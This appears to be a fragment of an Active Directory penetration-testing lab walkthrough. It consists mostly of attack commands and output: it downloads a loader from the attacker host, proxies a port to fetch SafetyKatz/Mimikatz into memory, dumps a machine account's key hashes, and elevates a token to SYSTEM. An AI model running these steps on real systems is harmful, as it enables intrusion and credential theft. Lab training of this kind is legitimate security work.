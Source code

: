 `powershell`

`$ExecutionContext.SessionState.LanguageMode`:
```
FullLanguage
```

- **Extract the Encryption Key Hash (from the Target Machine 1 `dcorp-mgmt`) of the Target Domain Administrator**
???

![HFS - Loader.exe](learning_objective_07_hfs_loader.png)

`iwr http://172.16.100.1/Loader.exe -OutFile C:\Users\Public\Loader.exe`

`netsh interface portproxy add v4tov4 listenport=1234 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1`

![HFS -SafetyKatz.exe](learning_objective_07_hfs_safetykatz.png)

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe sekurlsa::evasive-keys exit`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-keys📌

[SNIP]

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : TECHSRV30$👤
Domain            : TECH
Logon Server      : (null)
Logon Time        : 3/11/2025 5:54:35 AM
SID               : S-1-5-18

         * Username : techsrv30$
         * Domain   : TECH.FINANCE.CORP
         * Password : (null)
         * Key List :
           aes256_hmac       cf9663ec900673821727858b404456a9f7c104e5a731253781e47cf601b9f747🔑
           rc4_hmac_nt       54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_hmac_old      54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_md4           54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_hmac_nt_exp   54c0572a3ddc383be81cdd37b3c8d8a6
           rc4_hmac_old_exp  54c0572a3ddc383be81cdd37b3c8d8a6
```
🚩

`C:\Users\Public\Loader.exe -path http://127.0.0.1:1234/SafetyKatz.exe token::elevate`:
```
[SNIP]

mimikatz(commandline) # token::elevate📌

Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

596     {0;000003e7} 1 D 18459          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !📌
 * Process Token : {0;0028c0cb} 0 D 2727993     TECH\techservice        S-1-5-21-1325336202-3661212667-302732393-1109   (09g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 2744954     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```